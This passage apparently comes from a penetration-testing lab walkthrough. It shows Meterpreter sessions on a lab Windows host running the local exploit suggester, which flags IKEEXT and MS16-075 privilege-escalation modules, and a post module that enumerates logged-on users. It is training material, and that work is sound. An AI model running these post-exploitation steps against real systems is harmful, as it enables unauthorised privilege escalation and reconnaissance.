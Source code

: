       - Content of `Drinks.recipe.txt`
        ```
        Put the lime in the coconut and drink it all up!
        ```

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
    ```
    meterpreter > run post/multi/recon/local_exploit_suggester 

    [*] 192.168.0.20 - Collecting local exploits for x86/windows...
    [*] 192.168.0.20 - 30 exploit checks are being tried...
    [+] 192.168.0.20 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
    [+] 192.168.0.20 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.

    ```
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
      ```with descriptions
      meterpreter > run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true

      [*] 192.168.0.20 - Collecting local exploits for x86/windows...
      [*] 192.168.0.20 - 30 exploit checks are being tried...
      [+] 192.168.0.20 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
        This module exploits a missing DLL loaded by the 'IKE and AuthIP 
        Keyring Modules' (IKEEXT) service which runs as SYSTEM, and starts 
        automatically in default installations of Vista-Win8. It requires an 
        insecure bin path to plant the DLL payload.
      [+] 192.168.0.20 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
        Module utilizes the Net-NTLMv2 reflection between DCOM/RPC to 
        achieve a SYSTEM handle for elevation of privilege. Currently the 
        module does not spawn as SYSTEM, however once achieving a shell, one 
        can easily use incognito to impersonate the token.

      ```
 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer:

  ```
  meterpreter > run post/windows/gather/enum_logged_on_users

  Current Logged Users
  ====================

  SID                                           User
  ---                                           ----
  S-1-5-21-321011808-3761883066-353627080-1000  MSEDGEWIN10\IEUser


  [+] Results saved in: /root/.msf4/loot/20210927041049_default_192.168.0.20_host.users.activ_751820.txt

  Recently Logged Users
  =====================

  SID                                           Profile Path
  ---                                           ------------
  S-1-5-18                                      %systemroot%\system32\config\systemprofile
  S-1-5-19                                      %systemroot%\ServiceProfiles\LocalService
  S-1-5-20                                      %systemroot%\ServiceProfiles\NetworkService
  S-1-5-21-321011808-3761883066-353627080-1000  C:\Users\IEUser
  S-1-5-21-321011808-3761883066-353627080-1003  C:\Users\sysadmin
  S-1-5-21-321011808-3761883066-353627080-1004  C:\Users\vagrant
  ```
